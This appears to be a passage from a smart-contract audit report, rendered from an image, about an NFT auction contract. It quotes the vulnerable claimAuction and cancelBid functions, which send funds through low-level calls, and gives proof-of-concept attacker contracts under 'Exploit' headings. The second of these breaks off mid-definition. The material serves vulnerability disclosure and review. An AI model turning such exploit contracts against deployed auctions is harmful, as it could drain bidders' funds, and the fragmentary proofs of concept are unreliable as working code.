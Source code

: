 ```sol
                emit ClaimAuction(owner(), _tokenid, success, highestBid);
            } else if (auctionInfoData[_tokenid][i].status == true) {
                (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
                emit Refund(auctionInfoData[_tokenid][i].bidder, _tokenid, success, highestBid);
            } else {}
        }
    }
```
**Exploit claimAuction low level call**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./auctionDemo.sol";

contract tauctionDemo {

   auctionDemo public x1;

   constructor(auctionDemo _x1) {

      x1 = auctionDemo(_x1);

   }

   function testLowCal() public payable {

      x1.claimAuction{value: 2 ether}(uint256(12));

   }

   receive() external payable {}

   }
```
**Vulnerable cancelBid function**
```sol
// Ln 124-130
    function cancelBid(uint256 _tokenid, uint256 index) public {
        require(block.timestamp <= minter.getAuctionEndTime(_tokenid), "Auction ended");
        require(auctionInfoData[_tokenid][index].bidder == msg.sender && auctionInfoData[_tokenid][index].status == true);
        auctionInfoData[_tokenid][index].status = false;
        (bool success, ) = payable(auctionInfoData[_tokenid][index].bidder).call{value: auctionInfoData[_tokenid][index].bid}("");
        emit CancelBid(msg.sender, _tokenid, index, success, auctionInfoData[_tokenid][index].bid);
    }
```
**Exploit cancelBid function with low level call**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./auctionDemo.sol";

contract tauctionDemo {

   auctionDemo public x1;

   constructor(auctionDemo _x1) {

```
